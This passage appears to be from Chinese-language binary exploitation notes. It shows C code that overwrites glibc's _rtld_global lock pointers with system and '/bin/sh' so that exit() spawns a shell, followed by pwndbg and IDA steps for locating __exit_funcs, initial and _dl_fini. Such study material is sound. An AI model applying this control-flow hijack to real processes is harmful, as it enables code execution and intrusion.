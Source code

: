```C
    char *libc_base = ((char *)(&system) - 0x55410);

    // p/x &_rtld_global._dl_rtld_lock_recursive
    // p/x &_rtld_global._dl_rtld_unlock_recursive
    size_t *_dl_rtld_lock_recursive = (size_t *)(libc_base + 0x228f68);

    // p/x &_rtld_global._dl_load_lock.mutex
    size_t *dl_load_lock = (size_t *)(libc_base + 0x228968);

    /* 修改数据 */

    // 设置 _dl_rtld_lock_recursive 为 system
    *_dl_rtld_lock_recursive = (size_t)&system;

    // 设置 _dl_load_lock 为 /bin/sh (注意，这里不是赋值地址，而是直接给字符串的字节码)
    *dl_load_lock = *(size_t*)binsh;

    exit(1);
    return 0;
}
```

__注:__

`glibc-2.34` 之前可用

需要关闭`ASLR`保护

## 变量地址偏移

### __exit_funcs地址

通过 `pwndbg` 查看 `__exit_funcs` 地址 : `p/x &__exit_funcs`
通过 `IDAPro` 查看 `__exit_funcs` 地址 : `exit` 中调用 `__run_exit_handlers` 时第二个参数即为 `__exit_funcs` 的地址

### initial

通过 `pwndbg` 查看 `initial` 地址 : `p/x &initial`
通过 `IDAPro` 查看 `initial` 地址 : 跟进[\_\_exit\_funcs地址](#__exit_funcs地址)，值即为initial的地址

### _dl_fini

通过 `pwndbg` 查看 `_dl_fini` 地址 : `p/x &_dl_fini`
通过 `IDAPro` 查看 `_dl_fini` 地址 : 在`ld`中的`start`函数反汇编，最下面有`lea rdx, sub_6040`, 其中`sub_6040`函数即为`_dl_fini`
